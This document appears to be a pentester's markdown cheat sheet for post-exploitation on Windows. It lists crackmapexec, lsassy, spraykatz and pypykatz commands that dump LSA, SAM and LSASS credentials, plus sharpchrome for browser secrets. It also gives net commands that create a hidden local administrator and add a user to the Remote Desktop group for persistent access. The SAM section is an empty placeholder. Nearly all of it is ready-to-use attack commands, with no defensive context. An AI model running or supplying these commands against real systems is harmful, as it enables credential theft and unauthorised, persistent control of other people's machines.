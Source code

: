# Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam
```

### SAM
```bash
```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp
```

### Browser secrets

```bash
sharpchrome.exe
```

## create/add new local admin account 

```bat
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## add user to RDP group

```bat
net localgroup "Remote Desktop Users" <user> /add
```